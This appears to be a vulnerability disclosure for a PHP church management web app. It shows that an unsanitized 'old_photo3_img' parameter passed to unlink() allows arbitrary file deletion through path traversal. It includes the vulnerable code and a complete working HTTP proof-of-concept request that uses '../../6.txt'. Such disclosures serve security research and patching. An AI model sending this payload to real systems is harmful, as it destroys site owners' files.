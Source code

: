 ### Vulnerability file address

In line 185 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo3_img']);`,` $_POST['old_photo3_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo3']['tmp_name'] != '') {
            $img2 = generateUniqueFilename($_FILES['photo3']);
            $filepath = "../../assets/images/" . $img2;

            if (move_uploaded_file($_FILES["photo3"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo3_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update2"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo3_img"

../../6.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo3";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `6.txt` file in the `church/` directory

![image-20250504211215615](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042112654.png)

Then we execute the above poc to attack

![image-20250504211227137](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042112162.png)

Files are deleted after the attack is successful

![image-20250504211240596](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042112627.png)